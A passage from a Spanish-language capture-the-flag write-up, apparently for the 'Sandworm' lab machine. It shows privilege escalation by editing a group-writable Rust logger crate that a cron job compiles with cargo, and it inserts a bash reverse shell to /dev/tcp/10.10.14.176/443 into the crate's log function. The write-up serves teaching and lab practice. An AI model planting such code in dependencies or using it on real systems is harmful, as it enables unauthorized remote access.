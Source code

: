 
Podemos ver que usa `extern crate logger;`, buscaremos en donde se hace referencia en `/opt/tipnet` a esto de `logger`.

```bash
silentobserver@sandworm:/opt/tipnet$ grep -r "logger" 2>/dev/null
Cargo.toml:logger = {path = "../crates/logger"}
#####
```

Hace referencia a una dependencia de este programa, pero no es una que se descargue de Internet, sino que es personalizada y esta en `/opt/crates/logger` y su archivo de `rust` en `src/lib.rs`. Nosotros como grupo podemos editar y leerlo.

```bash
silentobserver@sandworm:/opt/crates/logger/src$ ls -la
total 12
drwxrwxr-x 2 atlas silentobserver 4096 May  4 17:12 .
drwxr-xr-x 5 atlas silentobserver 4096 May  4 17:08 ..
-rw-rw-r-- 1 atlas silentobserver  732 May  4 17:12 lib.rs
```

### RCE (escalada)

Usando [pspy](https://github.com/DominicBreuker/pspy/releases), para ver las tareas que se ejecutan cada cierto intervalo de tiempo y que usuario las está ejecuntando, vemos que el usuario con **UID=0** (`root`) está creando un binario con `cargo`.

```bash
#####
2023/07/18 21:24:01 CMD: UID=0     PID=38126  | /bin/sh -c cd /opt/tipnet && /bin/echo "e" | /bin/sudo -u atlas /usr/bin/cargo run --offline
#####
```

Esto nos hace pensar en un ataque que implique modificar la función `pub fn log` para que ejecute un comando una vez se compile el proyecto de `rust`, ya que el `tipnet` ejecuta la función `log` al final una vez que se usa como sea este binario.

```rust
//#####
  logger::log("ROUTINE", " - ", "Pulling fresh submissions into database.");

}
```

Probemos a enviar una **reverse shell** a nuestra máquina modificando el `lib.rs`.

```rust
extern crate chrono;

use std::fs::OpenOptions;
use std::io::Write;
use chrono::prelude::*;
use std::process::Command; //AÑADIMOS ESTO PARA PODER EJECUTAR COMANDOS

pub fn log(user: &str, query: &str, justification: &str) {
    let command = "bash -i >& /dev/tcp/10.10.14.176/443 0>&1";

    let output = Command::new("bash")
        .arg("-c")
        .arg(command)
        .output()
        .expect("failed");

    let now = Local::now();
    let timestamp = now.format("%Y-%m-%d %H:%M:%S").to_string();
//#####
```
